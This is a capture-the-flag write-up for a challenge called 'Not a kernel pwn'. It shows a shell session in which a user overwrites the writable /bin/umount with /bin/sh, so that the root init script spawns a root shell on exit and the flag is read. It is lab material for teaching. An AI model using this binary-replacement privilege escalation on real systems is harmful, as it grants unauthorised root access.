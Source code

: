 # Not a kernel pwn

* Round: 26 (2022/09)
* Category: Misc
* Points: 100
* Solves: 3

## Description

Kernel pwn without a kernel module?

## Solution

`/bin` is writable and it is easy to see `/init` calls `/bin/umount` after the shell exits, so overwrite `/bin/umount` with `/bin/sh` and `exit` pops a root shell.

```sh
Welcome to Not a Kernel Pwn
/ $ ls
ls
bin      etc      lib      linuxrc  root     sbin     tmp      var
dev      init     lib64    proc     run      sys      usr
/ $ id
id
uid=1000 gid=1000 groups=1000
/ $ rm /bin/umount
rm /bin/umount
/ $ echo /bin/sh > /bin/umount
echo /bin/sh > /bin/umount
/ $ chmod +x /bin/umount
chmod +x /bin/umount
/ $ exit
exit
/bin/sh: can't access tty; job control turned off
/ # id
id
uid=0(root) gid=0(root)
/ # cat /root/flag.txt
cat /root/flag.txt
ictf{fake_flag}
/ # ^C
```

The idea of this challenges comes from an unintended solution (by @ptr-yudai) of `qKarachter` challenge from CrewCTF 2022, and this challenge is modified from `welkerme` from CakeCTF 2022 (still by @ptr-yudai).
